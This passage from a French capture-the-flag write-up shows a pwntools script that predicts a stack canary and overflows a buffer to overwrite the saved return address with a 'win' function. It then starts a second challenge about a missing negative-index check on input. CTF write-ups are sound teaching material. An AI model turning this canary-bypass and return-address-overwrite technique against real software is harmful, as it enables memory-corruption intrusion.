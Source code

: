 🕵️‍♀️ Le programme crash, mais on a plus de stack smashing, essayons donc de modifier la valeur de saved RIP qui est 0x18 après le canary : 

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(10):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

n = cyclic_find(0x61616173)
between_canary_and_rdivalue = cyclic(0x18)

io.sendlineafter(b'Quel est votre choix :',(b'A'*n)[:n]+p64(canary)+ between_canary_and_rdivalue + p64(0x40127f)) # 40127F = fonction gagne 
print(io.recvline())
print(io.recv().decode())
```

![](attachment/4dc8d2adc31ee899421773a49444ebec.png)

🎇 nickel on a gagné ! 🎇
### Zoo de pointeurs sauvages 1/4

>Vous venez d'être promu directeur du Zoo de pointeurs sauvages.  
A vous de remplir vos cases animalière comme bon vous semble

_Note: Dans cette première étape, on vous demande de faire planter le programme_

`openssl s_client -verify_quiet -quiet -connect zoo.serviel.fr:1234`

💽 binaire : 2_chall et 2_zoo.c

🕵️‍♀️ Ici c'est très rapide, si on analyse la fonction choice, on observe que le control de l'input se fait uniquement pour une valeur <= à 7 mais pas e dessous de 0 :
